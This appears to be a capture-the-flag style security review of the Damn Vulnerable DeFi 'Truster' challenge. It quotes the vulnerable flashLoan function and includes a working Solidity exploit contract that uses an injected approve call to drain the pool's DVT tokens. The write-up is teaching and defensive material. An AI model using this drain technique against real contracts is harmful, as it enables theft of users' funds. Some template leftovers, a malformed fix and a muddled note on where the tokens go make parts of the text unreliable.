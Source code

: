 # Truster

Truster is a [damnn vulnerable defi challenge](https://www.damnvulnerabledefi.xyz/challenges/3.html), a new pool has launched that is offering flash loans of DVT tokens for free.

# Introduction

<!-- TODO  -->
Truster offers flash loans of DVT tokens for free, currently the pool has 1 milion DVT tokens in balance.

The focus of the security review was on the following:

1. Ensure that the system is implemented consistently with the intended functionality, and without unintended edge cases.
2. Identify known vulnerabilities particular to smart contract systems, as outlined in our [Smart Contract Best Practices](https://consensys.github.io/smart-contract-best-practices/), and the [Smart Contract Weakness Classification Registry](https://swcregistry.io/).

*Disclaimer:* This security review does not guarantee against a hack. It is a snapshot in time of brink according to the specific commit by a three person team. Any modifications to the code will require a new security review.

# Findings 

## Critical Risk
### Theft of all DVT tokens

**Severity:** Critical

**Context:** [`TrusterLenderPool.sol#L21-L41`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/truster/TrusterLenderPool.sol#L21-L41)

**Description:**
The contract have a function named as `flashLoan`, using this function we can borrow an amount of DVT tokens, this function receive amount to borrow `borrowAmount`, borrower address `borrower`, token address `target` and function called in token `data`.

```solidity
contract TrusterLenderPool is ReentrancyGuard {
    ...
    function flashLoan(
            uint256 borrowAmount,
            address borrower,
            address target,
            bytes calldata data
        )
            external
            nonReentrant
        {
            uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
            require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
            
            damnValuableToken.transfer(borrower, borrowAmount);
            target.functionCall(data);

            uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
            require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
        }
}
```

Using this function an attacker is able to stole all DVT Tokens, creating an exploit contract that call the `flashLoan` function, and passing this value in `data` parameter: `approve(address(this),type(uint).max)`.

```solidity
contract TrusterExploit {
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token); 

        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint).max);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
}
```

In the code above, the exploit encode the data `approve(address(this),type(uint).max)` and send it via `pool.flashLoan` with the rest of the parameters, and this approve your contract to receive unlimited amount of DVT tokens.
And the following line transfers the entire TrusterLenderPool balance to the exploit contract.

**Recommendation:**
```diff
+ Do not execute data sent by an external contract within the functionCall.
- ...
```
